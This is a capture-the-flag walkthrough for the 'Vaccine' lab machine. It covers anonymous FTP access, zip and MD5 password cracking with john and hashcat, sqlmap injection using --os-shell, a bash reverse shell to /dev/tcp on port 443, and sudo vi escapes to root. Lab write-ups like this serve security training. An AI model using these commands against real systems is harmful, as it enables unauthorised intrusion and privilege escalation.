




# Vaccine

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Vulnerability Assessment  
  Databases  
  Custom Applications  
  Protocols  
  Source Code Analysis  
  Apache  
  PostgreSQL  
  FTP  
  PHP  
  Reconnaissance  
  Password Cracking  
  SUDO exploitation  
  SQL injection  
  Remote Code Execution  
  Clear Text Credentials  
  Anon/Guest Access  

#### Description
  Learn how to enumerate a system and how powerful it really is.

#### **Initial Enumeration**
  21/tcp : ftp  : vsftpd 3.0.3
  22/tcp : ssh  : OpenSSH 8.0p1 Ubuntu
  80/tcp : http : Apache httpd 2.4.41 ((Ubuntu))
  
  Seeing FTP we can test the login with anonymous credentials. There is a .zip file present on the FTP server, and we can download it and crack it open.

  However, there seems to be a problem since the .zip is password locked. 

#### **Cracking the Password**
  To unlock the .zip, we can use John the Ripper. First, since it is a .zip we can use a utility packed with John called *zip2john* to create hashes for the files. Then use those hashes in a regular john password cracking command. 
  ``` bash
    zip2john {file}.zip > {hashfile_name}
    john --wordlist={wordlist_file} {hashfile_name}
    john --show {hashfile_name}
  ```
  Luckily, we were able to get the password using John and extract the files. Reading through index.php, we can find the login function and see there is a password hash written in plaintext of the function. Since this is an MD5 hash, its not the actual password and we can find out what it represents. This can be done with Google or hashcat. 
  ``` bash
    echo "{md5_hash}" > {hashfile_name}
    hashcat -a 0 -m 0 {hashfile_name} {filepath}/{wordlist}
  ```
  

  Now that the credentials for logging in are acquired we can go into Firefox to login to the dashbaord. 

#### **SQLmap**
  *SQLmap* is a tool for detecting potential exploits for SQL injection. To craft a sqlmap command, first the structure of queries need to be examined. By inspecting the cookies, we can see that the field <code>PHPSESSID</code> and we need to make sure to include it in our command. 
  ``` bash
    sqlmap -u '{URL}/{path_if_present/}' --cookie="{cookie_param_name}={cookie_value}"
  ```
  

  This tells us that the search box is vulnerable. In turn, we can append <code>--os-shell</code> to the end to perform command injection. There is now an established connection to the shell, however it is not very stable and it can be remedied using the following payload:
  ``` bash
    bash -c "bash -i >& /dev/tcp/{local_IP}/443 0>&1"
  ```
  Make sure to start a netcat server on port 443 as well. Then run these commands to establish a cleaner stable terminal shell on the same terminal as the netcat server. 
  ``` bash
    python3 -c 'import pty;pty.spawn("/bin/bash")' 
    CTRL+Z 
    stty raw -echo 
    fg 
    export TERM=xterm
  ```

#### **Privilege Escalation**
  Right now we do not have admin or root access. We can inspect the files that are being served for potential credentials like these: 
    

  From here, we know that the username is postgres and the password. Instead of a reverse shell it is now possible to use SSH. It is also possible to inspect our privileges as user postgres:

  
  
  Our privileges involve editing pg_hba.conf using Vi. According to [gtfobins](https://gtfobins.github.io/gtfobins/vi/#sudo), we can use Vi to our advantage either using <code>vi -c ':!/bin/sh' /dev/null</code> or <code> vi :set shell=/bin/sh :shell</code>. The latter bit, needs to be in Vi where each :{instruction} is entered one after the other. It will allow us to gain root access. 